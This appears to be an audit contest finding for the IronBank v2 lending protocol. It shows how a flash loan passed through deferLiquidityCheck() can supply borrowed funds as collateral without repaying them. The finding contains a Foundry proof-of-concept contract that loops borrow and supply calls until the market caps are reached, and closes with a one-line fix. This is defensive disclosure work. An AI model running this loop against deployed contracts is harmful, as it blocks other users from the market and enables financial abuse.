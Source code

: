 Arz

medium

# A Flash Loan can supply the borrowed amount instead of repaying it

## Summary

A Flash Loan allows users to borrow from IronBank without the need for collateral as long as the borrowed amount is repaid within a single transaction. 

However, instead of repaying it, the Flash Loan can use the amount borrowed to supply it as collateral. 

## Vulnerability Detail

IronBank allows Flash Loans to borrow without the need for collateral as long as the collateralValue >= debtValue at the end of the transaction when checking the account liquidity in deferLiquidityCheck().

Having collateralValue >= debtValue can be achieved in 2 ways:

1. The borrowed amount is repayed so the debt value is then set to 0 and the collateralValue will be bigger or equal to the debt value
2. Attack - The borrowed amount is supplied as collateral so that the collateral value becomes bigger/equal to the debt value

So the attacker(Flash Loan) can use the borrowed amount and supply it so that the value of the collateral is bigger than the debt value and the tx wont fail when checking the account liquidity in deferLiquidityCheck().

Note: If the attacker uses all the borrowed amount to supply, the debtValue will likely still be a bit bigger so the attacker needs to supply a bit more collateral than he borrowed.


## Impact

There is no way for the attacker to drain everything from the contract because the account liquidity is checked if he wanted to redeem what he supplied but still, because this isnt meant to be done, this can damage the system a lot. 

Examples: 

1. The attacker can loop borrow and then supply a massive amount of tokens and reach the borrow/supply cap not allowing other users to borrow or supply. See PoC below
2. The attacker can hope that the price of the collateral increases and then he can redeem what he supplied
3. The attacker can get liquidated and the liquidator will earn money from what he isnt supposed to

## Code Snippet
https://github.com/sherlock-audit/2023-05-ironbank/blob/main/ib-v2/src/protocol/pool/IronBank.sol#L306

## Proof Of Concept

In this PoC i show how an attacker can create a loop of borrowing and supplying in order to reach the max supply/borrow cap so that other users wont be able to supply or borrow.

Here we create a loop of borrowing and supplying but we are using the borrowed amount to supply so this will increase the borrow cap and supply cap until the max cap is reached. This also leaves the attacker with a huge amount of ibTokens.

```solidity

contract FlashLoanAttackTest is Test, Common {
    uint16 internal constant reserveFactor = 1000; // 10%
    int256 internal constant market1Price = 100e8;

    IronBank ib;
    MarketConfigurator configurator;
    CreditLimitManager creditLimitManager;
    FeedRegistry registry;
    PriceOracle oracle;
    IronBankLens lens;
    ERC20Market market1;

    address admin = address(64);
    address user1 = address(128);
    uint16 internal constant market1CollateralFactor = 8000;

    
    function setUp() public {
        ib = createIronBank(admin);

        configurator = createMarketConfigurator(admin, ib);

        vm.prank(admin);
        ib.setMarketConfigurator(address(configurator));

        creditLimitManager = createCreditLimitManager(admin, ib);

        vm.prank(admin);
        ib.setCreditLimitManager(address(creditLimitManager));

        TripleSlopeRateModel irm = createDefaultIRM();

        (market1,,) = createAndListERC20Market(18, admin, ib, configurator, irm, reserveFactor);

        registry = createRegistry();
        oracle = createPriceOracle(admin, address(registry));

        vm.prank(admin);
        ib.setPriceOracle(address(oracle));

        setPriceForMarket(oracle, registry, admin, address(market1), address(market1), Denominations.USD, market1Price);
        configureMarketAsCollateral(admin, configurator, address(market1), market1CollateralFactor);
        lens = createLens();

        //Set market/borrow cap
        uint256 supplyCap = 10e18;
        uint256 borrowCap = 10e18;
        vm.startPrank(admin);
        configurator.setMarketSupplyCaps(constructMarketCapArgument(address(market1), supplyCap));
        configurator.setMarketBorrowCaps(constructMarketCapArgument(address(market1), borrowCap));

        // Injest some liquidity for borrow.
        deal(address(market1), admin, 1e18);
        market1.approve(address(ib), 1e18);
        ib.supply(admin, admin, address(market1), 1e18);
        vm.stopPrank();

        //Give this contract some funds to supply
        deal(address(market1), address(this), 2500000000000000000);
    }


    //THIS IS A FUNCTION THAT AN EOA WOULD CALL ON THE ATTACK FLASH LOAN CONTRACT
    function testAttack() public {
        ib.deferLiquidityCheck(address(this),bytes(""));
        (uint256 a, uint256 b) = ib.getAccountLiquidity(address(this));

        //COLLATERAL VALUE EQUALS TO THE DEBT VALUE
        console.log("THE COLLATERAL VALUE IS",a);
        console.log("THE DEBT VALUE IS",b);

        IronBankLens.MarketMetadata memory status = lens.getMarketMetadata(ib, address(market1));

        //THE MAX SUPPLY/BORROW CAP IS REACHED
        console.log("THE SUPPLY CAP IS", status.supplyCap);
        console.log("THE BORROW CAP IS", status.borrowCap);
        
    }

    //THIS FUNCTION WILL GET CALLED BY deferLiquidityCheck() 
    function onDeferredLiquidityCheck(bytes memory encodedData) public {

        //WE HAVE TO DEPOSIT A BIT MORE THAN WE BORROWED
        //HOW BIG THE amountToSupply IS DEPENDS ON THE MARKET, THIS IS JUST AN EXAMPLE 
        uint256 amountToSupply = 250000000000000000;

        uint256 amountToWithdraw = 200000000000000000;

        //LOOP UNTIL THE MAX CAP IS REACHED
        for(uint256 i; i < 5; ++i) {
            ib.borrow(address(this), address(this), address(market1), 1000000000000000000 + amountToWithdraw * i); 
            IERC20(market1).approve(address(ib), type(uint256).max);  
            ib.supply(address(this), address(this), address(market1), 1000000000000000000 + amountToSupply * (i + 1)); 
        } 
    }

}

```

## Tool used

Manual Review

## Recommendation

A very simple solution for this exists, we can check if the liquidityCheckStatus of the user is dirty in the supply() function

```solidity
require(liquidityCheckStatus[from] != LIQUIDITY_CHECK_DIRTY);
```

